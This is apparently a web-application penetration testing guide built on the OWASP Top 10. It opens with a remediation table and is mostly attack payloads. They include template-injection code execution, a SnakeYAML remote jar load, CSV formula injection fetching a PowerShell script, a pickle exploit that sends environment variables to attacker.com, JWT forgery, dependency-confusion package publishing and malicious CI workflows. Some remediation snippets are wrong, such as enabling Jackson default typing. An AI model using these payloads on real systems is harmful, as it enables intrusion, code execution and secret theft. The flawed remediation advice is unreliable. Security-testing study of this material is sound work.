

# **Webapp Security Testing Framework: Comprehensive OWASP Top 10 + Modern Attack Vectors** 
## (Autumn 2025) v3.0

| Vulnerability                   | Technical Remediation & Code Examples                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|---------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| **Injection**                   | - **Parameterized Queries**<br>- **ORM frameworks** (Hibernate, Django ORM, GORM for Go)<br>- **Whitelist + regex**<br>- **Context-aware encoding**<br>- **WAF rules**<br>**Java**:<br>```java\nString query = \"SELECT * FROM users WHERE id = ?\";\nPreparedStatement ps = connection.prepareStatement(query);\nps.setInt(1, userId);\n```<br>**Python**:<br>```python\ncursor.execute(\"SELECT * FROM users WHERE id=%s\", (user_id,))\n```<br>**Go**:<br>```go\ndb.Query(\"SELECT * FROM users WHERE id = ?\", userID)\n```<br>**Node.js**:<br>```js\npool.query('SELECT * FROM users WHERE id = $1', [userId])\n``` |
| **Broken Authentication**       | - **Adaptive Rate Limiting**<br>- **Secure password hashing** (bcrypt, Argon2)<br>- **MFA & secure sessions**<br>- **Anti-CSRF tokens**<br>**Java**:<br>```java\n// Using Spring Security with bcrypt\nPasswordEncoder encoder = new BCryptPasswordEncoder();\n```<br>**Python**:<br>```python\nfrom werkzeug.security import generate_password_hash\nhash = generate_password_hash(password, method='pbkdf2:sha256')\n```<br>**Go**:<br>```go\nhashed, _ := bcrypt.GenerateFromPassword([]byte(password), bcrypt.DefaultCost)\n```<br>**Node.js**:<br>```js\nconst bcrypt = require('bcrypt');\nconst hash = await bcrypt.hash(password, 12);\n``` |
| **Sensitive Data Exposure**     | - **TLS 1.2+**, **HSTS**, **envelope encryption**, **tokenization**<br>- **Key management** with HSM/KMS<br>**Java**:<br>```java\n// Enforce HTTPS with proper HSTS header (Spring Security config)\nhttp.headers().httpStrictTransportSecurity().includeSubDomains(true).maxAgeInSeconds(31536000);\n```<br>**Python**:<br>```python\n# Flask-Talisman for HTTPS\nfrom flask_talisman import Talisman\nTalisman(app, force_https=True)\n```<br>**Go**:<br>```go\n// Using TLS in net/http\nserver := &http.Server{Addr: \":443\", TLSConfig: tlsConfig}\n```<br>**Node.js**:<br>```js\nconst helmet = require('helmet');\napp.use(helmet.hsts({ maxAge: 31536000, includeSubDomains: true }));\n``` |
| **XML External Entities (XXE)** | - **Configure XML parsers** (disable DTDs)<br>- **Schema validation**<br>- **XML filtering proxies**<br>**Java**:<br>```java\nDocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();\ndbf.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);\n```<br>**Python**:<br>```python\nfrom defusedxml.ElementTree import fromstring\nxml = fromstring(xml_data)\n```<br>**Go**:<br>```go\n// Use an XML parser that disables external entities (encoding/xml is safe by default)\n```<br>**Node.js**:<br>```js\n// Using a safe XML parser like libxmljs with secure settings\n``` |
| **Broken Access Control**       | - **Implement ABAC/RBAC**, **JWT**,<br> **resource-level checks**, **OAuth2 scopes**,<br> **temporary tokens**<br>**Java**:<br>```java\n// Spring Security method-level security\n@PreAuthorize(\"hasRole('ADMIN')\")\n```<br>**Python**:<br>```python\nif not user.has_permission(resource): abort(403)\n```<br>**Go**:<br>```go\n// Using casbin for RBAC\nif !enforcer.Enforce(user, resource, action) { /* deny */ }\n```<br>**Node.js**:<br>```js\n// Verify JWT for each API request\nconst payload = jwt.verify(token, secret);\n``` |
| **Security Misconfiguration**   | - **IaC with security scanning** (Terraform, CloudFormation)<br>- **CSP with nonce/hash**, **CORS config**<br>- **Reverse proxies with security headers**<br>- **Automated drift detection**<br>**Java**:<br>```java\n// Adding security headers via Spring Boot filter\nresponse.setHeader(\"X-Content-Type-Options\", \"nosniff\");\n```<br>**Python**:<br>```python\n@app.after_request\n def set_headers(response):\n    response.headers['X-Frame-Options'] = 'DENY'\n    return response\n```<br>**Go**:<br>```go\nw.Header().Set(\"X-Frame-Options\", \"DENY\")\n```<br>**Node.js**:<br>```js\napp.use((req, res, next) => {\n  res.set('X-Content-Type-Options', 'nosniff');\n  next();\n});\n``` |
| **Cross-Site Scripting (XSS)**  | - **Context-specific output encoding**<br>- **Trusted templates** (React/Vue/Angular auto-escape)<br>- **Strict CSP**, **DOM sanitization (DOMPurify)**<br>- **Secure cookie flags** (HttpOnly, SameSite)<br>**Java**:<br>```java\n// Thymeleaf auto-escapes user input\n```<br>**Python**:<br>```python\n# Jinja2 auto-escapes HTML\n```<br>**Go**:<br>```go\n// Use html/template package for safe rendering\n```<br>**Node.js**:<br>```js\nconst DOMPurify = require('dompurify');\nconst clean = DOMPurify.sanitize(dirtyHtml);\n``` |
| **Insecure Deserialization**    | - **Replace native serialization** with JSON Schema/Protobuf<br>- **HMAC verification** before deserialization<br>- **Serialization firewall** with allowlists<br>- **Sandboxed deserialization**<br>**Java**:<br>```java\n// Restrict classes during JSON deserialization (e.g., Jackson)\nobjectMapper.activateDefaultTyping(pt, ObjectMapper.DefaultTyping.NON_FINAL);\n```<br>**Python**:<br>```python\n# Use jsonschema to validate input before deserialization\n```<br>**Go**:<br>```go\n// Deserialize into predefined struct types only\n```<br>**Node.js**:<br>```js\n// Validate JSON using Ajv before processing\n``` |
| **Using Components with Known Vulnerabilities** | - **Integrate SCA tools** (Dependabot, Snyk, OWASP Dependency-Check)<br>- **Virtual patching with WAFs**<br>- **Maintain a SBOM** with automated CVE monitoring<br>- **Container scanning** (Trivy, Clair)<br>**Java**:<br>```xml\n<!-- Maven Dependency-Check plugin -->\n```<br>**Python**:<br>```bash\n$ bandit -r .\n```<br>**Go**:<br>```bash\n$ gosec ./...\n```<br>**Node.js**:<br>```bash\n$ snyk test\n``` |
| **Insufficient Logging & Monitoring** | - **Centralized logging** (ELK, Splunk, Grafana Loki)<br>- **Log integrity** with crypto-chaining<br>- **Anomaly detection** using ML/behavioral analysis<br>- **SOAR for incident response**<br>- **Deploy honeytokens/canary tokens**<br>**Java**:<br>```java\n// Using Logback for structured logging\nlogger.warn(\"Validation failure: {}\", field);\n```<br>**Python**:<br>```python\nimport logging\nlogging.warning('Validation failure: %s', field)\n```<br>**Go**:<br>```go\nlog.Printf(\"Validation failure: %s\", field)\n```<br>**Node.js**:<br>```js\nconsole.warn('Validation failure:', field);\n``` |

---

## **1. Injection (SQL, NoSQL, Command, SSTI, GraphQL)**

### **Traditional Injection Testing**
- **Step 1: Identify User Inputs**: Start by identifying all user input fields such as login forms, search bars, and URL parameters.
- **Step 2: Test with Common Payloads**:
  - For **SQL Injection**: Test with payloads like `' OR 1=1 --` or `' UNION SELECT null, username, password FROM users--`.
  - For **NoSQL Injection**: Test with `{ "$ne": null }` in MongoDB queries.
  - For **Command Injection**: Test with payloads like `; ls -la` or `&& whoami`.

### **🆕 Server-Side Template Injection (SSTI)**
**Critical for Modern Frameworks**

#### **Testing Steps**:
- **Step 1**: Identify template engines by error messages or HTTP headers
- **Step 2**: Test basic math expressions: `{{7*7}}`, `${7*7}`, `<%= 7*7 %>`
- **Step 3**: Escalate to code execution payloads

#### **SSTI Payloads by Engine**:

**Jinja2 (Python/Flask)**:
```python
# Basic detection
{{7*7}}
{{config}}
{{config.items()}}

# Code execution
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

**Twig (PHP)**:
```php
# Basic detection
{{7*7}}
{{dump(app)}}

# Code execution
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```

**Freemarker (Java)**:
```java
# Basic detection
${7*7}
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }

# Code execution
${"freemarker.template.utility.Execute"?new()("id")}
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

**Handlebars (Node.js)**:
```javascript
# Code execution
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{#with (concat (lookup string 0) (lookup string 1))}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 (slice 2))}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

### **🆕 GraphQL Injection**

#### **Testing Steps**:
- **Step 1**: Identify GraphQL endpoints (`/graphql`, `/graphiql`, `/api/graphql`)
- **Step 2**: Test introspection queries
- **Step 3**: Test for injection in arguments

#### **GraphQL Payloads**:
```graphql
# Introspection attack
{
  __schema {
    types {
      name
      fields {
        name
        type {
          name
        }
      }
    }
  }
}

# SQL injection in GraphQL arguments
{
  user(id: "1' OR 1=1--") {
    name
    email
  }
}

# Denial of Service via deep nesting
{
  author(id: "1") {
    posts {
      author {
        posts {
          author {
            posts {
              # ... continue nesting
            }
          }
        }
      }
    }
  }
}
```

### **🆕 Expression Language Injection**

**Spring EL Injection**:
```java
# Detection
${7*7}
#{7*7}

# Code execution
${T(java.lang.Runtime).getRuntime().exec('id')}
#{T(java.lang.Runtime).getRuntime().exec('id')}
```

**OGNL Injection (Struts)**:
```java
# Detection
%{7*7}

# Code execution
%{(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#_memberAccess['allowStaticMethodAccess']=true)(@java.lang.Runtime@getRuntime().exec('id'))}
```

### **Remediation**:
- **Template Security**: Use **sandboxed template engines** with restricted function access
- **GraphQL Security**: Implement **query complexity analysis**, **depth limiting**, and **rate limiting**
- **Expression Language**: Disable or restrict **SpEL/OGNL** evaluation in user inputs
- **Input Validation**: Apply **strict input validation** with allowlists for all injection types

---

## **🆕 Microservices & Container Security**

### **Service Mesh Security Testing**

#### **Istio/Envoy Misconfigurations**:
```bash
# Test for service mesh bypass
curl -H "Host: internal-service.mesh.local" http://external-endpoint/

# mTLS verification bypass
curl -k --cert fake.crt --key fake.key https://service.mesh.local/admin

# Envoy admin interface exposure
curl http://service:9901/config_dump
curl http://service:9901/clusters
```

### **Container Escape Testing**

#### **Docker Container Breakout**:
```bash
# Check for privileged containers
docker inspect <container> | grep Privileged

# Test for host filesystem access
ls -la /proc/1/root/
mount | grep docker

# Capability exploitation
capsh --print
getcap -r / 2>/dev/null

# Test for exposed Docker socket
ls -la /var/run/docker.sock
curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json
```

#### **Kubernetes Pod Security**:
```yaml
# Test pod with dangerous security context
apiVersion: v1
kind: Pod
metadata:
  name: security-test
spec:
  securityContext:
    runAsUser: 0
    fsGroup: 0
  containers:
  - name: test
    image: alpine
    securityContext:
      privileged: true
      allowPrivilegeEscalation: true
      capabilities:
        add:
        - SYS_ADMIN
        - NET_ADMIN
    volumeMounts:
    - name: host-root
      mountPath: /host
  volumes:
  - name: host-root
    hostPath:
      path: /
```

### **API Gateway Security**

#### **Gateway Bypass Techniques**:
```bash
# Host header injection
curl -H "Host: internal-api.local" http://gateway/api/admin

# Path traversal
curl http://gateway/api/../admin
curl http://gateway/api/%2e%2e/admin

# HTTP method override
curl -X POST -H "X-HTTP-Method-Override: DELETE" http://gateway/api/users/1

# Protocol smuggling
curl -H "Transfer-Encoding: chunked" -H "Content-Length: 0" -d $'1\r\nX\r\n0\r\n\r\n'
```

### **Inter-Service Communication**

#### **Service-to-Service Authentication Flaws**:
```bash
# JWT manipulation for service calls
# Test with modified service claims
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzdWIiOiJzZXJ2aWNlLWEiLCJhdWQiOiJzZXJ2aWNlLWIiLCJyb2xlIjoiYWRtaW4ifQ.

# Service mesh policy bypass
curl -H "X-Forwarded-For: 10.0.0.1" -H "X-Real-IP: 10.0.0.1" http://internal-service/

# mTLS certificate validation bypass
openssl s_client -connect service:443 -cert client.crt -key client.key -verify_return_error
```

---

## **2. Broken Authentication + Modern Auth Patterns**

### **Traditional Authentication Testing**
- **Step 1: Test for Brute Force**: Use **Hydra** or **Burp Suite Intruder** to attempt brute-forcing the login page.
- **Step 2: Session Management Testing**: Test for **session fixation**, **session hijacking**, and **predictable session IDs**.

### **🆕 OAuth 2.0/OpenID Connect Flaws**

#### **OAuth Testing Steps**:
```bash
# Authorization code interception
https://auth.example.com/oauth/authorize?client_id=123&redirect_uri=https://attacker.com&response_type=code

# PKCE bypass
POST /oauth/token
Content-Type: application/x-www-form-urlencoded

grant_type=authorization_code&code=AUTH_CODE&client_id=123&code_verifier=WEAK_VERIFIER

# Scope elevation
https://auth.example.com/oauth/authorize?client_id=123&scope=read+write+admin

# State parameter bypass (CSRF)
https://auth.example.com/oauth/authorize?client_id=123&redirect_uri=https://client.com/callback&response_type=code
```

### **🆕 JWT Security Testing**

#### **JWT Attack Vectors**:
```python
# Algorithm confusion attack
import jwt

# Change algorithm from RS256 to HS256
header = {"typ": "JWT", "alg": "HS256"}
payload = {"sub": "admin", "role": "admin"}
# Use public key as HMAC secret
token = jwt.encode(payload, public_key, algorithm="HS256", headers=header)

# None algorithm attack
header = {"typ": "JWT", "alg": "none"}
payload = {"sub": "admin", "role": "admin"}
token = jwt.encode(payload, "", algorithm="none", headers=header)

# Key confusion attack
# Try using kid parameter to point to different keys
header = {"typ": "JWT", "alg": "RS256", "kid": "../../public.key"}
```

### **🆕 WebAuthn/FIDO2 Testing**:
```javascript
// Test for replay attacks
const credential = await navigator.credentials.create({
    publicKey: {
        challenge: oldChallenge, // Reuse old challenge
        rp: { name: "Example" },
        user: { id: new Uint8Array([1,2,3]), name: "user", displayName: "User" },
        pubKeyCredParams: [{ alg: -7, type: "public-key" }]
    }
});

// Test for origin validation bypass
const credential = await navigator.credentials.get({
    publicKey: {
        challenge: challenge,
        allowCredentials: [{
            type: "public-key",
            id: credentialId
        }]
    }
});
```

---

## **3. Sensitive Data Exposure + Cloud Security**

### **Traditional Data Exposure Testing**
- **Step 1: Check for HTTPS**: Ensure that sensitive data is transmitted over **HTTPS** and not HTTP.
- **Step 2: Test Data Encryption**: Ensure that sensitive data is encrypted both in transit and at rest.

### **🆕 Cloud Storage Misconfiguration**

#### **AWS S3 Bucket Testing**:
```bash
# Test for public read access
aws s3 ls s3://bucket-name --no-sign-request
aws s3 sync s3://bucket-name . --no-sign-request

# Test for public write access
echo "test" > test.txt
aws s3 cp test.txt s3://bucket-name/ --no-sign-request

# Bucket policy enumeration
aws s3api get-bucket-policy --bucket bucket-name
aws s3api get-bucket-acl --bucket bucket-name
```

#### **Azure Blob Storage Testing**:
```bash
# Test for public access
curl https://storage.blob.core.windows.net/container/file.txt

# Container enumeration
curl https://storage.blob.core.windows.net/container?restype=container&comp=list
```

#### **Google Cloud Storage Testing**:
```bash
# Test for public access
gsutil ls gs://bucket-name
curl https://storage.googleapis.com/bucket-name/file.txt

# Bucket permissions
gsutil iam get gs://bucket-name
```

### **🆕 Container Secrets Exposure**:
```bash
# Check for secrets in container environment
docker exec container env | grep -i password
docker exec container env | grep -i secret
docker exec container env | grep -i key

# Check for secrets in container filesystem
docker exec container find / -name "*.pem" -o -name "*.key" -o -name ".env" 2>/dev/null

# Docker history secrets
docker history --no-trunc image:tag | grep -i password
```

### **🆕 Infrastructure-as-Code Security**:
```terraform
# Terraform security testing
resource "aws_s3_bucket" "bad_example" {
  bucket = "my-bucket"
  
  # Missing encryption
  # Missing public access block
  # Missing versioning
}

# Good example
resource "aws_s3_bucket" "good_example" {
  bucket = "my-secure-bucket"
}

resource "aws_s3_bucket_server_side_encryption_configuration" "example" {
  bucket = aws_s3_bucket.good_example.id

  rule {
    apply_server_side_encryption_by_default {
      kms_master_key_id = aws_kms_key.example.arn
      sse_algorithm     = "aws:kms"
    }
  }
}
```

---

## **4. XML External Entities (XXE) + Modern Data Formats**

### **Traditional XXE Testing**
- **Step 1: Identify XML Parsers**: Look for endpoints that accept **XML** input.
- **Step 2: Test for XXE**: Send an XXE payload like `<!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd">] >`.

### **🆕 YAML Deserialization Attacks**

#### **YAML Injection Payloads**:
```yaml
# Python PyYAML
!!python/object/apply:subprocess.check_output [['id']]
!!python/object/apply:os.system ['id']

# Ruby YAML
--- !ruby/object:Gem::Installer
i: x
--- !ruby/object:Gem::SpecFetcher
i: y

# Java SnakeYAML
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://attacker.com/payload.jar"]]]]
```

### **🆕 JSON Injection & Prototype Pollution**:
```javascript
// Prototype pollution via JSON
{
  "__proto__": {
    "admin": true,
    "role": "administrator"
  }
}

// Constructor pollution
{
  "constructor": {
    "prototype": {
      "admin": true
    }
  }
}

// Deep merge pollution
{
  "user": {
    "__proto__": {
      "isAdmin": true
    }
  }
}
```

### **🆕 CSV Injection/Formula Injection**:
```csv
# Excel formula injection
=cmd|'/c calc.exe'!A1
=cmd|'/c powershell IEX(wget attacker.com/ps.ps1)'!A1
@SUM(1+1)*cmd|'/c calc.exe'!A1

# Google Sheets
=IMPORTRANGE("https://attacker.com/malicious", "A1:A1")
=IMAGE("https://attacker.com/track.png")
```

---

## **5. Broken Access Control + API Security**

### **Traditional Access Control Testing**
- **Step 1: Test URL Access Controls**: Try accessing URLs that belong to other users.
- **Step 2: Test for Authorization Bypass**: Try manipulating request parameters.

### **🆕 GraphQL Access Control**

#### **GraphQL Authorization Bypass**:
```graphql
# Introspection bypass
{
  __schema @skip(if: false) {
    types {
      name
    }
  }
}

# Field-level authorization bypass
{
  user(id: "1") {
    publicField
    adminOnlyField @include(if: true)
  }
}

# Batching to bypass rate limits
[
  {"query": "{ user(id: 1) { name } }"},
  {"query": "{ user(id: 2) { name } }"},
  {"query": "{ user(id: 3) { name } }"}
]
```

### **🆕 REST API Security Testing**

#### **API Access Control Flaws**:
```bash
# HTTP method override
curl -X GET -H "X-HTTP-Method-Override: DELETE" /api/users/123

# Parameter pollution
curl "/api/user?id=1&id=2" # May return data for id=2
curl "/api/user?role=user&role=admin" # May escalate privileges

# Content-Type manipulation
curl -X POST -H "Content-Type: application/xml" -d '<user><role>admin</role></user>' /api/users
curl -X POST -H "Content-Type: text/plain" -d '{"role": "admin"}' /api/users

# API version bypass
curl /api/v1/admin/users  # May have different access controls than v2
curl /api/internal/users  # May bypass external API restrictions
```

### **🆕 WebSocket Security**:
```javascript
// WebSocket authorization bypass
const ws = new WebSocket('wss://api.example.com/admin');
ws.onopen = function() {
    // Test if authentication is properly validated
    ws.send(JSON.stringify({
        action: 'admin_action',
        token: 'invalid_token'
    }));
};

// WebSocket message injection
ws.send(JSON.stringify({
    action: 'user_message',
    content: '<script>alert("XSS")</script>'
}));
```

### **🆕 gRPC Security Testing**:
```bash
# gRPC service enumeration
grpcurl -plaintext server:9090 list
grpcurl -plaintext server:9090 list api.UserService

# Method invocation without auth
grpcurl -plaintext -d '{"id": "123"}' server:9090 api.UserService/GetUser

# Message manipulation
grpcurl -plaintext -d '{"id": "123", "role": "admin"}' server:9090 api.UserService/UpdateUser
```

---

## **6. Security Misconfiguration + Infrastructure Security**

### **Traditional Misconfiguration Testing**
- **Step 1: Identify Default Configurations**: Look for default configurations, credentials, and exposed services.
- **Step 2: Test HTTP Headers**: Check for missing security headers.

### **🆕 Container Security Misconfiguration**

#### **Docker Security Testing**:
```bash
# Check for privileged containers
docker ps --format "table {{.Names}}\t{{.Image}}" | xargs -I {} docker inspect {} | grep -i privileged

# Check for host namespace usage
docker inspect container | grep -E "(NetworkMode|PidMode|IpcMode|UsernsMode)"

# Check for dangerous capabilities
docker inspect container | grep -A 10 CapAdd

# Check for root user
docker exec container id
docker inspect container | grep -i user
```

#### **Kubernetes Security Misconfigurations**:
```yaml
# Test for dangerous pod security policies
apiVersion: v1
kind: Pod
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  securityContext:
    runAsUser: 0
  containers:
  - name: test
    securityContext:
      privileged: true
      allowPrivilegeEscalation: true
```

```bash
# Kubernetes security testing commands
kubectl auth can-i --list
kubectl get pods --all-namespaces
kubectl get secrets --all-namespaces
kubectl get clusterrolebindings
kubectl describe pod suspicious-pod
```

### **🆕 Service Mesh Misconfigurations**:
```bash
# Istio security testing
kubectl get peerauthentication --all-namespaces
kubectl get authorizationpolicy --all-namespaces
kubectl get destinationrule --all-namespaces

# Test for mTLS bypass
curl -k http://service.mesh.local/admin
curl -k --cert fake.crt --key fake.key https://service.mesh.local/

# Envoy config dump
kubectl exec -it pod-name -c istio-proxy -- curl localhost:15000/config_dump
```

### **🆕 CI/CD Pipeline Security**:
```yaml
# GitHub Actions security issues
name: Vulnerable Pipeline
on: [push, pull_request]
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v2
    - name: Dangerous command
      run: |
        # Command injection via PR title
        echo "Building: ${{ github.event.pull_request.title }}"
        
        # Secret exposure
        echo "Token: ${{ secrets.API_TOKEN }}" > file.txt
```

```bash
# Jenkins security testing
curl http://jenkins.example.com/script
curl http://jenkins.example.com/manage
curl http://jenkins.example.com/systemInfo
```

---

## **7. Cross-Site Scripting (XSS) + Modern Frontend Security**

### **Traditional XSS Testing**
- **Step 1: Test User Input**: Inject payloads like `<script>alert('XSS')</script>`.
- **Step 2: Test Stored vs. Reflected XSS**

### **🆕 Modern Frontend Framework XSS**

#### **React XSS Vectors**:
```jsx
// dangerouslySetInnerHTML bypass
const userInput = '';
<div dangerouslySetInnerHTML={{__html: userInput}} />

// href attribute XSS
<a href={`javascript:alert('XSS')`}>Click</a>
<a href={userInput}>Click</a> // if userInput = "javascript:alert('XSS')"

// Server-side rendering XSS
const html = `<div>${userInput}</div>`; // Not escaped on server
```

#### **Vue.js XSS Vectors**:
```vue
<!-- v-html directive XSS -->
<div v-html="userInput"></div>

<!-- Dynamic component XSS -->
<component :is="userControlledComponent"></component>

<!-- Attribute binding XSS -->
<a :href="userInput">Link</a>
```

#### **Angular XSS Vectors**:
```typescript
// bypassSecurityTrust methods
import { DomSanitizer } from '@angular/platform-browser';

constructor(private sanitizer: DomSanitizer) {}

// Dangerous if userInput not validated
this.sanitizer.bypassSecurityTrustHtml(userInput);
this.sanitizer.bypassSecurityTrustScript(userInput);
this.sanitizer.bypassSecurityTrustUrl(userInput);
```

```html
<!-- Angular template XSS -->
<div [innerHTML]="userInput"></div>
<iframe [src]="userInput"></iframe>
```

### **🆕 Content Security Policy (CSP) Bypass**:
```javascript
// CSP bypass techniques
// 1. JSONP endpoint abuse
<script src="https://trusted-domain.com/jsonp?callback=alert"></script>

// 2. Angular/React development endpoints
<script src="https://trusted-domain.com/__webpack_hmr"></script>

// 3. File upload XSS with CSP bypass
// Upload JavaScript file to trusted domain, then include it

// 4. Service Worker registration
navigator.serviceWorker.register('/uploads/malicious-sw.js');

// 5. Import maps abuse (modern browsers)
<script type="importmap">
{
  "imports": {
    "react": "data:text/javascript,alert('XSS')//"
  }
}
</script>
```

### **🆕 WebAssembly (WASM) Security**:
```javascript
// WASM-based XSS
const wasmCode = new Uint8Array([
    0x00, 0x61, 0x73, 0x6d, // WASM magic
    0x01, 0x00, 0x00, 0x00, // version
    // ... malicious WASM bytecode
]);

WebAssembly.instantiate(wasmCode).then(result => {
    // Execute malicious code
    result.instance.exports.maliciousFunction();
});
```

---

## **8. Insecure Deserialization + Modern Serialization**

### **Traditional Deserialization Testing**
- **Step 1: Identify Deserialized Data**: Look for serialized objects in cookies, REST APIs.
- **Step 2: Manipulate Serialized Data**: Use tools like **ysoserial**.

### **🆕 Modern Serialization Attacks**

#### **Protocol Buffers (Protobuf) Security**:
```python
# Protobuf deserialization attack
import malicious_pb2

# Craft malicious protobuf message
malicious_msg = malicious_pb2.UserMessage()
malicious_msg.user_id = "1; DROP TABLE users; --"
malicious_msg.command = "__import__('os').system('id')"

# Serialize and send
serialized = malicious_msg.SerializeToString()
```

#### **MessagePack Attacks**:
```python
import msgpack

# Malicious MessagePack payload
malicious_data = {
    '__reduce__': ('os.system', ('id',))
}

packed = msgpack.packb(malicious_data, use_bin_type=True)
# Send packed data to application
```

#### **Avro Serialization Attacks**:
```python
import avro.schema
import avro.io

# Craft malicious Avro payload
schema = avro.schema.parse("""
{
  "type": "record",
  "name": "User",
  "fields": [
    {"name": "command", "type": "string"}
  ]
}
""")

# Create payload that exploits deserialization
malicious_record = {"command": "__import__('os').system('whoami')"}
```

### **🆕 Cloud Function/Serverless Deserialization**:
```python
# AWS Lambda function exploitation
def lambda_handler(event, context):
    import pickle
    
    # Vulnerable deserialization
    user_data = pickle.loads(base64.b64decode(event['data']))
    return user_data

# Malicious payload for Lambda
import pickle
import base64
import os

class Exploit:
    def __reduce__(self):
        return (os.system, ('curl http://attacker.com/steal?data=$(env)',))

payload = base64.b64encode(pickle.dumps(Exploit())).decode()
```

---

## **9. Using Components with Known Vulnerabilities + Supply Chain**

### **Traditional Component Testing**
- **Step 1: Identify All Components**: Use dependency scanning tools.
- **Step 2: Check for Vulnerabilities**: Use OWASP Dependency-Check, Snyk.

### **🆕 Supply Chain Attack Vectors**

#### **Dependency Confusion**:
```bash
# Test for dependency confusion
# Upload malicious packages with same names but higher versions
npm publish malicious-internal-package@999.0.0
pip upload malicious-internal-package==999.0.0
gem push malicious-internal-package-999.0.0.gem

# Check for internal package names in public registries
npm view internal-company-package
pip show internal-company-package
```

#### **Container Image Supply Chain**:
```dockerfile
# Test for vulnerable base images
FROM node:16-alpine  # Check for known vulnerabilities

# Test for malicious layers
RUN curl -sSL https://suspicious-domain.com/install.sh | bash

# Check for secrets in layers
COPY .env /app/.env  # Should not copy secrets
```

```bash
# Container image security testing
docker history --no-trunc image:tag
docker inspect image:tag | grep -i env
dive image:tag  # Analyze layer contents

# Test for known vulnerabilities
trivy image image:tag
clair-scanner --ip="$(docker network inspect bridge --format='{{(index .IPAM.Config 0).Gateway}}')" image:tag
```

#### **Build System Compromise**:
```yaml
# GitHub Actions supply chain attack vectors
name: Malicious Workflow
on:
  pull_request_target:  # Dangerous trigger
    branches: [main]

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v2
      with:
        ref: ${{ github.event.pull_request.head.sha }}
    
    - name: Dangerous script execution
      run: |
        # Execute untrusted code from PR
        ${{ github.event.pull_request.body }}
```

### **🆕 Package Manager Security**:
```bash
# npm security testing
npm audit
npm audit --parseable | grep -E "(high|critical)"
npm ls --depth=0 | grep -E "(WARN|ERR)"

# Check for suspicious packages
npm info package-name
npm info package-name versions --json
npm info package-name maintainers

# Yarn security
yarn audit
yarn audit --level high
yarn check --integrity

# pip security testing
pip-audit
safety check
pip list --outdated
bandit -r .

# Go module security
go list -m -u all
govulncheck ./...
gosec ./...
```

---

## **10. Insufficient Logging & Monitoring + Modern Observability**

### **Traditional Logging Testing**
- **Step 1: Check for Log Availability**: Ensure security events are logged.
- **Step 2: Test for Alerting**: Simulate attacks and verify alerts.

### **🆕 Cloud-Native Logging & Monitoring**

#### **Container Logging Security**:
```bash
# Check for sensitive data in container logs
docker logs container 2>&1 | grep -i -E "(password|secret|key|token)"
kubectl logs pod-name | grep -i -E "(password|secret|key|token)"

# Check for log injection
docker exec container logger "$(printf '\x1b]0;MALICIOUS\x07')"
kubectl exec pod -- logger "Fake admin login from trusted IP"

# Test log tampering
docker exec container rm /var/log/app.log
kubectl exec pod -- truncate -s 0 /var/log/app.log
```

#### **Kubernetes Audit Logging**:
```yaml
# Test Kubernetes audit configuration
apiVersion: audit.k8s.io/v1
